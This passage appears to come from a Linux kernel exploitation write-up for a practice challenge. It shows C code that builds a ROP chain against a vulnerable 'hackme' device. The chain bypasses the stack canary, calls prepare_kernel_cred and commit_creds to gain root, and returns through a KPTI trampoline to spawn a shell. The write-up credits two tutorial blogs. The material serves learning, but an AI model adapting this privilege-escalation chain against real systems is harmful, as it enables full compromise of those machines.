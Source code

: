 ```c

void overflow() {
  char buf[0x500];
  memset(buf, 'B', 250);
  uint64_t *chain = (uint64_t *)&buf[100];
  *chain++ = canary;
  *chain++ = 0; // rbp
  *chain++ = pop_rdi;
  *chain++ = 0x1; // init vpid
  *chain++ = find_task_by_vpid;
  *chain++ = pop_rcx;
  *chain++ = pop_rax_pop_rdi;
  *chain++ = push_rax_call_rcx;
  *chain++ = prepare_kernel_cred;
  *chain++ = pop_rcx; // transfer rax to rdi
  *chain++ = pop_rax_pop_rdi; // transfer rax to rdi
  *chain++ = push_rax_call_rcx; // transfer rax to rdi
  *chain++ = commit_creds;
  *chain++ = kpti_trampoline; // kpti_trampoline
  *chain++ = 0x3; // padding
  *chain++ = 0x3; // padding
  *chain++ = (uint64_t)&my_jump; // Necessary to 16 byte align stack before spawning shell
  *chain++ = user_mode_cs;
  *chain++ = user_rflags;
  *chain++ = user_sp;
  *chain++ = user_ss;

  write(global_fd, buf, 0x500); // since chain has been incremeneted
}

int main() {

  save_state();

  open_dev("hackme");

  leak();
  
  fix_offsets();

  overflow();

  close(global_fd);
  puts("[!] end of main");

  return 0;
  }
```


### Resources:
I used [this blog post](https://pawnyable.cafe/linux-kernel/LK01/stack_overflow.html#KPTI%E3%81%AE%E6%89%B1%E3%81%84) by **ptr-yudai** and [this blog post](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/) by **Midas** for learning about kernel exploitation, thank you!

